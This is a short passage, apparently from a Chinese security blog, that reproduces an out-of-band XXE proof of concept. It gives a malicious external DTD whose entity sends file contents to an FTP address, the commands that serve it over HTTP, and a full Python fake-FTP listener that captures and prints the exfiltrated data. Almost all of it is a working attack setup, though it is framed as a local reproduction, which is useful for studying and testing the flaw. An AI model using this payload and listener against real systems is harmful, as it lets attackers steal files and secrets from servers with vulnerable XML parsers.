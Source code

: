 POC:

0x1:

在复现时由于目标主机无法访问外网，所以需要在本地主机上搭建测试环境，具体的复现过程如下（嗯额这里感谢一下同事）：

1）新建目录xxe_test，复制下面文件放入  

test.dtd

```
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://ip/%data3;'>">

```

![20190114222834]({{site.baseurl}}/assets/images/审计/20190114222834.png)

2)在xxe_test目录下运行如下命令，监听8080端口（检查防火墙是否开放该端口）

Python -m SimpleHTTPServer 8080

3)运行以下脚本，启动ftp服务器（检查防火墙是否开放21端口）

Python xxe-ftp.py

![20190114223319]({{site.baseurl}}/assets/images/审计/20190114223319.png)

```python
#!/usr/env/python
from __future__ import print_function
import socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind(('0.0.0.0',21))
s.listen(1)
print('XXE-FTP listening ')
conn,addr = s.accept()
print('Connected by %s',addr)
conn.sendall('220 Staal XXE-FTP\r\n')
stop = False
while not stop:
    dp = str(conn.recv(1024))
    if dp.find("USER") > -1:
        conn.sendall("331 password please - version check\r\n")
    else:
        conn.sendall("230 more data please!\r\n")
    if dp.find("RETR")==0 or dp.find("QUIT")==0:
        stop = True
    if dp.find("CWD") > -1:
        print(dp.replace('CWD ','/',1).replace('\r\n',''),end='')
    else:
        print(dp)

conn.close()
s.close()
```
